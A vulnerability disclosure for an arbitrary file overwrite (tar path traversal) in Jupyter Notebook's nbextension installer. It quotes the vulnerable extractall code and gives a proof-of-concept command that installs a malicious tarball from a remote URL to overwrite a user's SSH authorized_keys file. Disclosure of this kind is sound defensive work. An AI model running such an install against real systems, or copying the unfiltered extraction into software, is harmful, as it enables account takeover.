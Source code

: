 ```yaml
---
layout: post
title:  "Arbitrary File Overwrite in jupyter notebook"
date:  2024-07-09 10:31:06 +0800
categories: file-overwrite
---
```


## Name

> Arbitrary File Overwrite in jupyter notebook

## Weakness

> CWE-22: Path Traversal

## Severity

> High (8.8)

## Version

> 6.5.7


### Summary

Notebook can install a Javascript extension [from remote sources](https://github.com/jupyter/notebook/blob/633c5be992a7139f67df8615e7c3ea0fc5e787c9/notebook/nbextensions.py#L69), if the remote source package is compressed using tar format, it will use [`tarfile.extractall`](https://github.com/jupyter/notebook/blob/633c5be992a7139f67df8615e7c3ea0fc5e787c9/notebook/nbextensions.py#L154) to extract tarball.  However, it doesn't filter the members in tarball, in this case, members with absolute and relative path names will be extract outside target directory, causing arbitrary file overwrite.

### Details

From the [source code](https://github.com/jupyter/notebook/blob/633c5be992a7139f67df8615e7c3ea0fc5e787c9/notebook/nbextensions.py#L635), user can install nbextension by following command:

```
jupyter nbextension install path|url [--user|--sys-prefix]
```
When installing packages from an url, it calls `install_nbextension` to download the tarball from online source and extracts the tarball using `tarfile.extractall`.
The vulnerable function [`install_nbextension#L154`](https://github.com/jupyter/notebook/blob/633c5be992a7139f67df8615e7c3ea0fc5e787c9/notebook/nbextensions.py#L154).

```
def install_nbextension(path, overwrite=False, symlink=False,
                        user=False, prefix=None, nbextensions_dir=None,
                        destination=None, verbose=DEPRECATED_ARGUMENT,
                        logger=None, sys_prefix=False
                        ):
    ...
    if path.startswith(('https://', 'http://')):
        if symlink:
            raise ValueError("Cannot symlink from URLs")
        # Given a URL, download it
        with TemporaryDirectory() as td:
            filename = urlparse(path).path.split('/')[-1]
            local_path = os.path.join(td, filename)
            if logger:
                logger.info(f"Downloading: {path} -> {local_path}")
            urlretrieve(path, local_path)
            # now install from the local copy
            full_dest = install_nbextension(local_path, overwrite=overwrite, symlink=symlink,
                nbextensions_dir=nbext, destination=destination, logger=logger)
    elif path.endswith('.zip') or _safe_is_tarfile(path):
        if symlink:
            raise ValueError("Cannot symlink from archives")
        if destination:
            raise ValueError("Cannot give destination for archives")
        if logger:
            logger.info(f"Extracting: {path} -> {nbext}")

        if path.endswith('.zip'):
            archive = zipfile.ZipFile(path)
        elif _safe_is_tarfile(path):
            archive = tarfile.open(path)
        # Vulnerable sink!!!!
        archive.extractall(nbext)
        archive.close()
        ...

    return full_dest
```


### PoC

1. Using following command to install a malicious extension:

    ```
     jupyter nbextension install https://media.githubusercontent.com/media/sunriseXu/onnx/main/hack.tar.gz --user
    ```
2. Check file path `/home/kali/.ssh/authorized_keys` has been overwritten
    ```
     ls -la /home/kali/.ssh
     > -rw-r--r--  1 kali kali 2098 Sep 11  2023 authorized_keys
    ```
3. Check on [colab](https://colab.research.google.com/drive/1iX1yj4CaRn4fQBoiejQM059Xp9z8gOmm?usp=sharing).

<img width="751" alt="1720496729240" src="https://github.com/jupyter/notebook/assets/33363160/90fc632b-dd9c-43c2-9a41-61ded73ac4a8">

 
### Impact

If a victim installs a malicious tarball extension, the tarball will be extracted outside the target directory and cause arbitrary file overwrite.
